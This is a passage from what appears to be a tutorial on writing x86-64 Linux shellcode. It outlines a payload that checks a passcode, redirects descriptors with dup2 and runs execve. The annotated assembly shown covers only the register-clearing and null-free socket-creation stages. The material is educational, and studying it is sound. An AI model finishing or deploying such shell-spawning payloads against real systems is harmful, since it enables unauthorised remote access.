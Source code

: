 + Function that asks for the passcode (write). After the dup2 syscall is initialized, a JMP will be set so that the flow directly continues to this function.

+ Function that reads the input (read).

+ Function that compares the input with the intended passcode. If they do not match, jump to the failure function.

+ Execve

+ Execve

##### Time to stick our hands into the mud

Let's crack this shellcode down and explain it section by section, shall we?

First things first, we have to clean all registers, otherwise the shellcode would fail within a real program flow with distinct values.

```term
global _start

_start:

xoring:

       xor rax, rax           ; Zeroes out RAX.
       xor rbx, rbx           ; Zeroes out RBX.
       xor rdi, rdi           ; Zeroes out RDI.
       xor rsi, rsi           ; Zeroes out RSI.
       xor rdx, rdx           ; Zeroes out RDX.
       xor rbp, rbp           ; Zeroes out RBP.
```

Let's initialize the socket. The procedure should follow this path:

manpage arguments: ```int socket(int domain, int type, int protocol);```

+ RAX obtains the syscall value.
+ RDI is incremented until the value AF_INET is given.
+ RSI is incremented once, in order to obtain the value SOCK_STREAM.
+ RDX is pushed, as its value is required to be 0.
+ The syscall is executed.
+ The RAX value is copied into RBX for sockfd arguments later on.

```term

socket:

       push word 41           ; Pushes word 41 (socket) into the stack.
       pop ax                 ; Pops such word into ax so there are no nulls.

       inc rdi                ; Increments RDI.
       inc rdi                ; Increments RDI. Gives the value of AF_INET.
       inc rsi                ; Increments RSI. Gives value of SOCK_STREAM.

       push rdx               ; As the protocol isn't important, the value of 0 in RDX is pushed.
       syscall                ; The syscall is executed.

       mov rbx, rax           ; The value of RAX is saved on RBX. Such value will later on be used for sockfd arguments.
```
